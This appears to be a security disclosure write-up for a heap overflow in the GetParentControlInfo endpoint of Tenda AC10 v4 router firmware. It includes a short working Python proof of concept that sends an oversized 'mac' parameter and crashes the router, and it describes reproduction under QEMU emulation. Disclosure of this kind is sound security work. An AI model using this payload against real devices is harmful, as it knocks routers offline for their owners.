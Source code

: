 # The router Tenda AC10 v4 V16.03.10.13 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a heap overflow vulnerability.

Firmware download link: [AC10 v4.0 Firmware Update](https://www.tenda.com.cn/material/show/103506)

Vulnerability URL: http://192.168.100.135/goform/GetParentControlInfo

The vulnerability occurs in the `GetParentControlInfo` function.

![Alt text](https://github.com/xubeining/Cve_report/blob/main/heap1.png)
![Alt text](https://github.com/xubeining/Cve_report/blob/main/heap2.png)

The program retrieves the user input parameter "mac" but does not check its size. When the input parameter is excessively large, it causes a heap overflow, leading to program crashes or exploitation.  
The vulnerability is located at line 49 in the `GetParentControlInfo` function, which is mapped to the route `GetParentControlInfo`.

![Alt text](https://github.com/xubeining/Cve_report/blob/main/heap3.png)

Further cross-referencing leads to the function `sub_43B3D8`, with attention focused on lines 35 and 38.

![Alt text](https://github.com/xubeining/Cve_report/blob/main/heap4.png)

The vulnerability occurs on the page path `/goform/GetParentControlInfo`.

payload:(python)
```python
import base64
import requests

url = "http://192.168.100.157:80/goform/GetParentControlInfo"

payload = {
   'mac': b'a'*(0x100000)
}

res = requests.post(url=url, data=payload)
print("Status Code:", res.status_code)
print("Response:", res.text)
```
### Reproduction Steps

# Launch QEMU Emulation
Open the QEMU emulator to simulate the environment.

![Alt text](https://github.com/xubeining/Cve_report/blob/main/heap5.png)

![Alt text](https://github.com/xubeining/Cve_report/blob/main/heap6.png)

Run the script.
![Alt text](https://github.com/xubeining/Cve_report/blob/main/heap7.png)

![Alt text](https://github.com/xubeining/Cve_report/blob/main/heap8.png)

![Alt text](https://github.com/xubeining/Cve_report/blob/main/heap9.png)

The router crashes, and the web page becomes inaccessible.
